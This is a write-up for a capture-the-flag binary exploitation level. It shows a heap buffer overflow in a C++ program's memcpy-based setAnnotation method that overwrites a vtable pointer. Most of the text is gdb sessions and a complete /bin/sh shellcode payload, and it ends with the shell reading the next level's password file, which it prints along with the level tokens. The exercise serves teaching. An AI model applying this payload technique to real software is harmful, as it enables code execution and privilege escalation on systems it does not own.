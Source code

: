 # Level9 - Read asm of CPP file

## Local script usage

```shell
Usage: ./main.sh
```

## Passwords and token

|        |                                                                    |
| ------ | ------------------------------------------------------------------ |
| level9 | `c542e581c5ba5162a85f767996e3247ed619ef6c6f7b76a59435545dc6259f8a` |
| bonus0 | `f3f0004b6f364cb5a4147e9ef827fa922a4861408845c26b6971ad770d906728` |

## Steps to resolve on VM

Note: We will use `gdb-peda`. You can setup peda with the script: [scripts/installPeda.sh](../../scripts/installPeda.sh)

Execute level8

```shell
./level9
```

Nothing happened

Lets debug the binary

```shell
(gdb) info functions
0x080485f4  main
0x080486f6  N::N(int)
0x0804870e  N::setAnnotation(char*)
0x0804873a  N::operator+(N&)
0x0804874e  N::operator-(N&)
```

See our assembly interpretation in [source file](../source.c)

The main difficulty here is the C++ language, that translates class method in not obvious ASM names. For example `_ZN1NplERS_` => `N::operator+(N&)`.

We can see a function `N::setAnnotation(char*)`, that uses `memcpy` and then the register `edx` is executed.

The idea is to use `memcpy` to create a buffer overflow and then execute a shellcode.

Lets search the offset

```shell
gdb-peda$ pset arg cyclic_pattern(200)
gdb-peda$ run
gdb-peda$ pattern search
> Registers contain pattern buffer:
  EAX+0 found at offset: 108
  Pattern buffer found at:
  0x0804a00c : offset    0 - size  200 ([heap])
```

While debugging we confirm the address of the buffer `a->annotation` is well 0x0804a00c, with an offset of 108.

```shell
gdb-peda$ b*0x08048677
gdb-peda$ run AAAA
gdb-peda$ ni
gdb-peda$ x/30x 0x0804a00c
  0x804a00c:      0x41414141      0x00000000      0x00000000      0x00000000
  0x804a01c:      0x00000000      0x00000000      0x00000000      0x00000000
  0x804a02c:      0x00000000      0x00000000      0x00000000      0x00000000
  0x804a03c:      0x00000000      0x00000000      0x00000000      0x00000000
  0x804a04c:      0x00000000      0x00000000      0x00000000      0x00000000
  0x804a05c:      0x00000000      0x00000000      0x00000000      0x00000000
  0x804a06c:      0x00000000      0x00000005      0x00000071      0x08048848
  0x804a07c:      0x00000000      0x00000000
gdb-peda$ x/x 0x08048848
  0x8048848 <_ZTV1N+8>:   0x0804873a
gdb-peda$ x/x 0x0804873a
  0x804873a <_ZN1NplERS_>: 0x8be58955

```

We have to erase the address `0x08048848`. It will be executed by `edx`. It contains a reference to a pointer of `N::operator+(N&)` method.

We have to build an exploit with:

```bash
SHELLCODE="\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80" # Length: 28
PADDING=`python -c 'print("A" * 80)'` # OFFSET=108 - SHELLCODE_LENGTH=28
RETADDRESS="\x0c\xa0\x04\x08"

python -c "print('$SHELLCODE_ADDRESS' + '$SHELLCODE' + '$PADDING' + '$RETADDRESS')" > /tmp/exploit9
```

Lets try

```shell
gdb-peda$ b*0x08048693 # before $edx
gdb-peda$ run $(cat /tmp/exploit9)
gdb-peda$ p $edx
  $1 = 0x6850c031
gdb-peda$ ni
  Stopped reason: SIGSEGV
  0x6850c031 in ?? ()
```

Unfortunately, this one does not work because it tries to dereference the address `0x6860c031` instead of executed it.

We have to put the address of shellcode as prefix.

Lets try again

```bash
SHELLCODE_ADDRESS="\x10\xa0\x04\x08" # Buffer address + 4
SHELLCODE="\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80"
PADDING=`python -c 'print("A" * 76)'` # OFFSET=108 - SHELLCODE_LENGTH=28 - SHELLCODE_ADDRESS=4
RETADDRESS="\x0c\xa0\x04\x08" # Buffer address

python -c "print('$SHELLCODE_ADDRESS' + '$SHELLCODE' + '$PADDING' + '$RETADDRESS')" > /tmp/exploit9
```

```shell
gdb-peda$ b*0x08048693 # before $edx
gdb-peda$ run $(cat /tmp/exploit9)
gdb-peda$ p $edx
  $1 = 0x804a010 # address of shellcode
gdb-peda$ x/x 0x804a010
  0x804a010:      0x6850c031 # first instructions of shellcode. Seems great !
gdb-peda$ continue
  process 9431 is executing new program: /bin/dash
$ # We have got the shell !
```

Finally we can get the pass !

```shell
~/level9 $(cat /tmp/exploit9)
$ whoami
> bonus0
$ cat /home/user/bonus0/.pass
> f3f0004b6f364cb5a4147e9ef827fa922a4861408845c26b6971ad770d906728
```

---

## Sources

### ASM

- [What is operator new(unsigned int)? - \_Znwj](https://reverseengineering.stackexchange.com/questions/4402/what-is-operator-newunsigned-int)

### CPP

- [C++ Overloading (Operator and Function)](https://www.tutorialspoint.com/cplusplus/cpp_overloading.htm)
- [Man \_Exit](https://en.cppreference.com/w/cpp/utility/program/_Exit)
- [Man memcpy](http://www.cplusplus.com/reference/cstring/memcpy/)
